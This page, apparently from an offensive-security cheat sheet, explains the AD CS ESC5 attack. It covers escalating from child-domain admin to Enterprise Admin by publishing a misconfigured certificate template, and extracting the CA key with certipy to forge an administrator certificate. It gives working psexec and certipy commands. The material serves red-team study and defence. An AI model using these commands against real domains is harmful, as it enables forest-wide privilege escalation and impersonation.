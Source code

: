 # Active Directory - Certificate ESC5

## ESC5 - Vulnerable PKI Object Access Control

> Escalate the privileges from **Domain Administrator** in the child domain into **Enterprise Administrator** at the forest root.

**Requirements**:

* Add new templates to the "Certificate" Templates container
* "WRITE" access to the `pKIEnrollmentService` object

**Exploitation - Access Control**:

* Use `PsExec` to launch `mmc` as SYSTEM on the child DC: `psexec.exe /accepteula -i -s mmc`
* Connect to "Configuration naming context" > "Certificate Template" container
* Open `certsrv.msc` as SYSTEM and duplicate an existing template
* Edit the properties of the template to:
    * Granting enroll rights to a principal we control in the child domain.
    * Including Client Authentication in the Application Policies.
    * Allowing SANs in certificate requests.
    * Not enabling manager approval or authorized signatures.
* Publish the certificate template to the CA
    * Publish by adding the template to the list in `certificateTemplate` property of `CN=Services`>`CN=Public Key Services`>`CN=Enrollment Services`>`pkiEnrollmentService`
* Finally use the ESC1 vulnerability introduced in the duplicated template to issue a certificate impersonating an Enterprise Administrator.

**Exploitation - Golden Certificate**:

Use `certipy`to extract the CA certificate and private key

```ps1
certipy ca -backup -u user@domain.local -p password -dc-ip 10.10.10.10 -ca 'DOMAIN-CA' -target 10.10.10.11 -debug
```

Then forge a domain admin certificate

```ps1
certipy forge -ca-pfx 'DOMAIN-CA.pfx' -upn administrator@domain.local
```

## References

* [From DA to EA with ESC5 - Andy Robbins - May 16, 2023](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c)
* [GOAD - part 14 - ADCS 5/7/9/10/11/13/14/15 - Mayfly - March 10, 2025](https://mayfly277.github.io/posts/ADCS-part14/)
